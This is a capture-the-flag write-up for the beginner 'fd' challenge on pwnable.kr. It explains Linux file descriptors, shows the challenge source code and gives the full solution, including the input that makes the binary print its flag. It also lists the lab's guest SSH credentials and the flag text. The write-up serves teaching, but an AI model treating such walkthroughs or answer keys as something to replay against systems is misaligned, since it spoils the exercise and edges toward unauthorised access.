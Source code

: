 # fd

## Description

fd - 1 pt

> Mommy! what is a file descriptor in Linux? <br> <br>
> try to play the wargame your self but if you are ABSOLUTE
> beginner, follow this tutorial link:
> https://youtu.be/971eZhMHQQw <br> <br>
> ssh fd@pwnable.kr -p2222 (pw:guest)

## Solution

### Background

#### File Descriptors

File descriptors are process-specific non-negative integers that are used to refer to files and other input/output resources. Each process has three file descriptors open by default:

* 0 - stdin
* 1 - stdout
* 2 - stderr

In order to read from an input source, we can use the ```read``` function:

```c
ssize_t read(int fd, void *buf, size_t count);
```

where ```fd``` is the file descriptor of the input source, ```buf``` is a pointer to a buffer, and ```count``` is the number of bytes to read.


### Exploit

When connecting to the server, we first check who are we:

```bash 
$ id
uid=1000(fd) gid=1000(fd) groups=1000(fd)
```

Then, we check the avialable files:

```bash
$ ls -l
total 16
-r-sr-x--- 1 fd_pwn fd   7322 Jun 11  2014 fd
-rw-r--r-- 1 root   root  418 Jun 11  2014 fd.c
-r--r----- 1 fd_pwn root   50 Jun 11  2014 flag
```

We have a binary file, a source code file, and a flag file. We cannot read the flag file, but we can read the source code and execute the binary. Let's take a look at the source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;

}
```

It looks like the program expects a number as a command-line argument, and then it reads 32 bytes from the file descriptor ```fd```. If the input is equal to ```LETMEWIN```, then the program prints the flag. Otherwise, it prints a message.

The file descriptor ```fd``` is calculated as ```atoi(argv[1]) - 0x1234```. This means that if we pass ```0x1234``` as a command-line argument, then ```fd``` will be ```0``` and the program will read from ```stdin```. Let's try it:

```bash
$ ./fd 4660
LETMEWIN
good job :)
mommy! I think I know what a file descriptor is!!
```

